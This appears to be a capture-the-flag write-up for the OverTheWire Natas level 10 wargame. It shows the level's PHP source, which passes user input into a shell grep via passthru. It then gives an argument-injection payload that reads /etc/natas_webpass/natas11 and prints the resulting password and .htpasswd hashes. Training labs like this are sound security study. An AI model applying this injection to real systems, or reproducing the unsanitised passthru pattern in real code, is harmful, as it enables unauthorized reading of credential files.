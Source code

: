 # Natas 10 Solution

It appears that the only difference between this level and the last is
that the characters `;` and `&` are filtered.

http://natas10.natas.labs.overthewire.org/index-source.html:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

This means that we must ust the grep function to find the solution.
Fortunately, grep allows wildcards in it's search term. We can search 
for `.*`(this will match anything) in the password file, 
and use a hashtag to comment out the `dictionary.txt`.


Submitting `.* /etc/natas_webpass/natas11 #` yields:
```
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
.htpasswd:natas10:$1$mRklUuvs$D4FovAtQ6y2mb5vXLAy.P/
.htpasswd:natas10:$1$SpbdWYWN$qM554rKY7WrlXF5P6ErYN/
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

The last line contains our password.

**Username: natas11**  
**Password: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK**

